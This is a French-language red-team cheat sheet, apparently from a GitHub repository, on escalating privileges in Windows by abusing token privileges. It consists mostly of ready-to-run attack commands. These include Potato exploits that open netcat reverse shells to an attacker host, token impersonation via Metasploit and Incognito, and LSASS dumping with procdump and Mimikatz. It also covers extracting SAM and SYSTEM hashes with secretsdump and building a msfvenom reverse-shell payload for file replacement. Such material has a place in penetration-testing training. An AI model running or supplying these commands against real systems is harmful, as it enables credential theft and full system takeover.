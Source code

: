 # 02-Exploitation des Privilèges Utilisateur

Cette section couvre l'exploitation des privilèges Windows courants pour l'escalade.

## Privilèges Utilisateur Windows

### SeImpersonatePrivilege / SeAssignPrimaryTokenPrivilege
> Permet l'usurpation de jetons - peut être exploité avec les attaques Potato.

```powershell
# Vérifier si vous avez le privilège
whoami /priv
```

**Exploitation (Potato Attacks)**
```powershell
# Pour Windows Server 2016 & inférieur (JuicyPotato)
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe attacker-ip 4444 -e cmd.exe" -t *

# Pour Windows Server 2019 & Windows 10 (1809+) (PrintSpoofer, RoguePotato)
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe attacker-ip 4444 -e cmd"
c:\tools\RoguePotato.exe -r attacker-ip -e "c:\tools\nc.exe attacker-ip 4444 -e cmd.exe" -l 9999
```

**Exploitation via Metasploit (Exemple : MS16-075)**
```bash
# Utiliser Metasploit pour l'exploitation (nécessite une session Meterpreter)
use exploit/windows/local/ms16_075_reflection_juicypotato # ou ms16_075_reflection pour des versions plus anciennes
set SESSION <SESSION_ID>
set LHOST <IP_ATTAQUANT>
set LPORT <PORT_ATTAQUANT>
exploit
```

**Utilisation d'Incognito pour l'usurpation de jetons**
(Nécessite une session Meterpreter ou un binaire Incognito chargé)
```
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
# ou "BUILTIN\Administrators"
```

### SeDebugPrivilege
> Permet d'attacher et de déboguer des processus - peut vider LSASS ou injecter dans des processus.

```powershell
# Activer le privilège s'il est désactivé
Import-Module .\Enable-Privilege.ps1 # Script personnalisé ou PowerSploit
Enable-Privilege -Name "SeDebugPrivilege"

# Vider LSASS pour les identifiants
# S'assurer que procdump.exe est sur la cible
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# Transférer lsass.dmp sur la machine attaquante et utiliser Mimikatz :
# mimikatz # sekurlsa::minidump lsass.dmp
# mimikatz # sekurlsa::logonpasswords

# RCE en tant que SYSTEM (Exemple d'injection)
# Nécessite un code d'injection ou un outil approprié
# Exemple conceptuel avec un outil hypothétique MyProcess::CreateProcessFromParent
$system_pid = Get-Process winlogon | Select -ExpandProperty Id
[MyProcess]::CreateProcessFromParent($system_pid,"cmd.exe","")
```

### SeTakeOwnershipPrivilege
> Permet de prendre possession de n'importe quel objet sécurisable.

```powershell
# Activer le privilège
# Import-Module .\Enable-Privilege.ps1 # Si nécessaire
Enable-Privilege -Name "SeTakeOwnershipPrivilege"

# Prendre possession d'un fichier
takeown /f "C:\chemin\vers\fichier.txt"
# Ou d'un répertoire (récursif)
takeown /f "C:\chemin\vers\repertoire" /r /d y

# Modifier les permissions pour obtenir un accès complet
icacls "C:\chemin\vers\fichier.txt" /grant VotreUtilisateur:F
icacls "C:\chemin\vers\repertoire" /grant VotreUtilisateur:F /t # /t pour récursif
```

### SeBackupPrivilege
> Permet de contourner les permissions de fichiers pour lire n'importe quel fichier. Utile pour exfiltrer et vider les hashes des ruches du registre.

```powershell
# Vérifier le privilège
whoami /priv

# Sauvegarder les ruches du registre
reg save hklm\sam C:\temp\sam.hive
reg save hklm\security C:\temp\security.hive
reg save hklm\system C:\temp\system.hive

# Transférer les fichiers .hive sur la machine attaquante
# Vider les hashes avec impacket-secretsdump
impacket-secretsdump -sam sam.hive -security security.hive -system system.hive LOCAL
```

### SeRestorePrivilege
> Permet de contourner les permissions de fichiers pour écrire sur n'importe quel fichier. Peut être utilisé pour remplacer des fichiers système ou des binaires de service.

```powershell
# Vérifier le privilège
whoami /priv

# Exemple d'exploitation avec SeRestoreAbuse.exe
# Script : https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe
# Compiler ou télécharger le binaire SeRestoreAbuse.exe
# Créer un payload (par exemple, un reverse shell)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.51 LPORT=80 -f exe -o reverse.exe
# Transférer reverse.exe et SeRestoreAbuse.exe sur la cible
# Exécuter SeRestoreAbuse pour remplacer un fichier (ex: un DLL utilisé par un service privilégié)
# ou pour écrire un fichier dans un emplacement protégé
./SeRestoreAbuse.exe <chemin_absolu_du_payload_reverse.exe> <chemin_du_fichier_a_remplacer_ou_creer>
# Exemple : Remplacer un DLL pour un DLL Hijacking ou écrire un binaire dans un System32
# Attention : L'utilisation de SeRestoreAbuse.exe nécessite de comprendre quel fichier cibler pour l'escalade.
# L'exemple original pointait vers l'exécution directe du payload, ce qui est moins courant pour SeRestore.
# Plus typiquement, on l'utilise pour écrire/modifier un fichier qui sera ensuite exécuté par un processus privilégié.
``` 